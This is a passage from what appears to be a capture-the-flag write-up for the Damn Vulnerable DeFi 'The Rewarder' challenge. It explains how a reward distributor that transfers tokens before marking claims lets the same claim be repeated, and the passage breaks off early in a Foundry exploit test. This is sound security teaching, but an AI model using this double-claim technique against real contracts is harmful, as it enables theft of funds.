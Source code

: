 The vulnerability lies in the order of operations within this function. Let's analyze the critical parts:

1. The function loops through all the claims in the `inputClaims` array
2. For each claim, it calculates the word and bit positions in the bitmap based on the batch number
3. If the token changes, it calls `_setClaimed()` to mark previous claims as processed
4. It verifies the Merkle proof to ensure the claimer is entitled to this reward
5. It transfers the tokens to the claimer
6. Only after transferring the tokens does it set the claims as processed (via `_setClaimed()`)

The issue is that tokens are transferred before the claims are marked as processed in the bitmap. This means that when processing multiple claims for the same token and batch in a single transaction, the contract doesn't properly check if these claims have already been processed until after all tokens are transferred.

## The Exploit

The vulnerability can be exploited by submitting multiple identical claims in a single transaction. Since the contract only marks claims as processed after all claims for a token are processed, we can claim the same reward multiple times.

Here's the exploit:

```solidity
function test_theRewarder() public checkSolvedByPlayer {
    // Load the reward distribution data
    bytes32[] memory dvtLeaves = _loadRewards(
        "/test/the-rewarder/dvt-distribution.json"
    );
    bytes32[] memory wethLeaves = _loadRewards(
        "/test/the-rewarder/weth-distribution.json"
    );

    // Get the raw reward data
    Reward[] memory dvtRewards = abi.decode(
        vm.parseJson(
            vm.readFile(
                string.concat(
                    vm.projectRoot(),
                    "/test/the-rewarder/dvt-distribution.json"
                )
            )
        ),
        (Reward[])
    );
    Reward[] memory wethRewards = abi.decode(
        vm.parseJson(
            vm.readFile(
                string.concat(
                    vm.projectRoot(),
                    "/test/the-rewarder/weth-distribution.json"
                )
            )
        ),
        (Reward[])
    );

    // Find the player's index in the distribution
    uint256 playerIndex;
    for (uint256 i = 0; i < BENEFICIARIES_AMOUNT; i++) {
        if (dvtRewards[i].beneficiary == player) {
            playerIndex = i;
            break;
        }
    }
```